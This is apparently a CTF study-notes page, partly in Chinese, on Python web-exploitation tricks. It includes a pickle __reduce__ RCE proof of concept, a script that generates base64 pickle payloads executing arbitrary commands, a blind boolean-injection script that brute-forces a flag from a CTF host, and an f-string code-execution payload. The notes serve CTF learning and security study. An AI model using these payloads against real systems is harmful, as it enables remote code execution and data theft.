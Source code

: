 # Python

## Pickle

### RCE
poc
```
class Exploit(object):
    def __reduce__(self):
        return (os.system,('ls',))
```
利用脚本

```
import _pickle as cPickle
import sys
import base64

COMMAND = sys.argv[1]

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))

print(base64.b64encode(cPickle.dumps(PickleRce())))
```

## repr() 函数将对象转化为供解释器读取的形式

可以与php serialize()类比

## 字符串bool

```
>>> 'a' and True
True
>>> 'a' and False
False
>>> True and False
False
>>> 'a' or False
'a'
>>> True or False
True
>>> False or True
True
```

存在类似SQL Bool Blind的注入

```python
#coding=utf-8
import requests
import time
import sys
import string

pt= string.printable

url="http://992b9ff2-9950-49ec-8925-4fa34293d8a6.node3.buuoj.cn/"

ret = "flag{"
url = url + "cgi-bin/pycalx.py"

while True:
    l = 1
    r = 128
    while(l+1<r):
        mid = (l+r) / 2
        tmp=ret+chr(mid)
        data = {
            'value1': 'a',
            'op': '+\'',
            'value2': 'and source>FLAG#',
            'source': tmp
        }
        req=requests.post(url,data=data)
        #print req.text
        if (req.status_code != requests.codes.ok):
            continue
        if "True" in req.text:
            r=mid
        else :
            l=mid
    if(chr(l) not in pt):
        break
    ret=ret+chr(l)
    sys.stdout.write("[-]Result : -> {0} <-\r".format(ret))
    sys.stdout.flush()

print("[+]Result : ->"+ret+"<-")
```

## 浮点数比较

``float()``

``inf,nan,infinity``

## python3 ``f'{}'``

在python3.6中，将字符串用{}引起来，加上引号，并且前面加个f就可以把{}中的字符串当做代码执行

``f"{__import__('time').sleep(1)}"``

## 参考资料
